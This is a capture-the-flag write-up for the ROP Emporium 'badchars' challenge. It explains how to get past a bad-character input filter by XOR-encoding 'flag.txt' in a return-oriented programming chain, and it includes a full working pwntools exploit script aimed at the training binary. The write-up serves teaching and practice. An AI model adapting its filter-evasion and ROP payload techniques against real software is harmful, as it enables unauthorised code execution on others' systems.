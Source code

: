 # Badchars
This challenge is a follow-up to the [write4](https://github.com/TSpeel/writeups/tree/main/pwn/ROPEmporium4_write4) challenge.
We again have to write `flag.txt` to memory and call `print_file()` with a pointer to it. 
However, this time there is a input filter present that replaces part of the payload if our payload contains the characters `x`, `g`, `a` or `.`.
This input filter works by comparing payload bytes to the ASCII values of these characters, so the addresses we use must also avoid these values.

## The plan
To evade the input filter, we can try to smuggle our string `flag.txt` into memory by altering the values when writing them, and using gadgets to repair them after they are written. 

We can write to the address `0x601028`, which is the `.bss` segment as in the write4 challenge. The gadget we can use for writing is slightly different this time: `mov qword [r13],r12; ret;`. We can use this gadget to write `flag.txt` XOR'd with an arbitrary value to `0x601028`, and then XOR the written string back to `flag.txt` with a XOR gadget: `xor byte ptr [r15], r14b; ret;`. 
We also have a useful gadget to set `r12`, `r13`, `r14` and `r15`: `pop r12,r13,r14,r15; ret;`.

This allows us to create a write function as follows:
```
def write8bytesandxor(writable_address, bytestr):
    pop_gadget       = 0x40069c # pop r12,r13,r14,r15
    pop_rdi_gadget   = 0x4006a3
    write_mov_gadget = 0x400634 # mov qword [r13],r12
    xor_gadget       = 0x400628 # xor byte ptr [r15], r14b
    pop_r15_gadget   = 0x4006a2

    # Write string to memory and prepare for XORing
    payload  = p64(pop_gadget)
    payload += p64(u64(bytestr)) # r12, contains qword string to write
    payload += p64(writable_address) # r13, contains address to write to
    payload += p64((17)) # r14, contains 8 bit value to XOR written string with
    payload += p64(writable_address) # r15, contains the address of written string to XOR 
    payload += p64(write_mov_gadget)

    # XOR the written string back to the original string byte by byte
    payload += p64(xor_gadget)
    for i in range(1,8):
        payload += p64(pop_r15_gadget)
        payload += p64(writable_address+i)
        payload += p64(xor_gadget)
    return payload

```
In this function we use the value 17 to XOR. This is an arbitrary choice, most values under 8 bits will work, as long as the result of the XOR does not contain the blacklisted characters `x`, `g`, `a` and `.`. The value has to be under 256, as the gadget `xor byte ptr [r15], r14b; ret;` only takes the lowest 8 bits of `r14`.

## Nearly there
Using this function to smuggle `flag.txt` into memory, we can now call `print_file()` with the address of our string:
```
io = start()

pop_rdi_gadget   = 0x4006a3
print_file_plt   = 0x400510
writable_address = 0x601028 # in .bss

payload = b"A" * 40

goal_string = b"flag.txt"

# Stage 1, write "flag.txt" to writable_address
# Choice of 17 is arbitrary, most values under 256 should work
payload += write8bytesandxor(writable_address, bytes([x^17 for x in goal_string]))

# Stage 2, call print_file_plt() with address of written string
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
```
Running this script, we get the following output:
```
Failed to open file: flag.tit
```
It seems our plan worked, but for some reason the `x` has been replaced with `i`. Initially, it seemed this could have been caused by the value we XOR with. Perhaps the ASCII value of `x` XOR'd with 17 is a blacklisted character?
However, the ASCII value of `x` is 120, and `120^17=105`, which is the ASCII value of `i`. There is thus something else at play.

Using GDB to step through the exploit, we can see that the character `i` is written to the address `0x60102e`.
This is what is causing the problem! `2e` is the ASCII value of `.`. 
Thus when we try to XOR `i` back to `x` by loading the address `0x60102e` for our XOR gadget, the address is replaced as the filter replaces the value `2e`.
We can solve this by choosing a different location to write our string to, such as the `.data` segment at `0x601038`.

## Final exploit
Now we have eliminated all blacklisted characters from our payload, and we can succesfully print the flag!
The final exploit script is as follows:

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./badchars"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================

def write8bytesandxor(writable_address, bytestr):
    pop_gadget       = 0x40069c # pop r12,r13,r14,r15
    pop_rdi_gadget   = 0x4006a3
    write_mov_gadget = 0x400634 # mov qword [r13],r12
    xor_gadget       = 0x400628 # xor byte ptr [r15], r14b
    pop_r15_gadget   = 0x4006a2

    # Write string to memory and prepare for XORing
    payload  = p64(pop_gadget)
    payload += p64(u64(bytestr)) # r12, contains qword string to write
    payload += p64(writable_address) # r13, contains address to write to
    payload += p64((17)) # r14, contains 8 bit value to XOR written string with
    payload += p64(writable_address) # r15, contains the address of written string to XOR 
    payload += p64(write_mov_gadget)

    # XOR the written string back to the original string byte by byte
    payload += p64(xor_gadget)
    for i in range(1,8):
        payload += p64(pop_r15_gadget)
        payload += p64(writable_address+i)
        payload += p64(xor_gadget)
    return payload


io = start()

pop_rdi_gadget   = 0x4006a3
print_file_plt   = 0x400510
writable_address = 0x601038 # in .data instead of .bss
# part of .bss 0x60102e ends with 2e which is the ASCII code of .

payload = b"A" * 40

goal_string = b"flag.txt"

# Stage 1, write "flag.txt" to writable_address
# Choice of 17 is arbitrary, most values under 256 should work
payload += write8bytesandxor(writable_address, bytes([x^17 for x in goal_string]))

# Stage 2, call print_file_plt() with address of written string
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
```
